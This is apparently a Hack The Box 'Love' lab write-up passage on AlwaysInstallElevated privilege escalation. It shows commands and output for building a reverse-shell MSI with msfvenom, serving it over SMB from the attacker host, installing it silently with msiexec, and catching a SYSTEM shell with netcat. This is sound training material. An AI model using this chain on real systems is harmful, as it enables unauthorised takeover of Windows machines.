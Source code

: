 ## AlwaysInstallElevated Privilege Escalation

Generated the malicious installer:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.105 LPORT=10099 -f msi -o privesc.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: privesc.msi

┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ sudo impacket-smbserver kali . -smb2support                                          
[sudo] password for kali: 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
...
```

Downloaded and installed the malicious file:

```powershell
C:\temp>copy \\10.10.14.105\kali\privesc.msi privesc.msi
copy \\10.10.14.105\kali\privesc.msi privesc.msi
        1 file(s) copied.
		
C:\temp>msiexec /quiet /qn /i privesc.msi
msiexec /quiet /qn /i privesc.msi
```

Obtained the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ nc -nlvp 10099                                                                            
listening on [any] 10099 ...
connect to [10.10.14.105] from (UNKNOWN) [10.129.128.110] 64526
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
nt authority\system
Love
909c70fd07a01517cefe7fc5d9e1bd6d

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Love
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : .htb

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-83-FA
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.129.128.110(Preferred) 
```
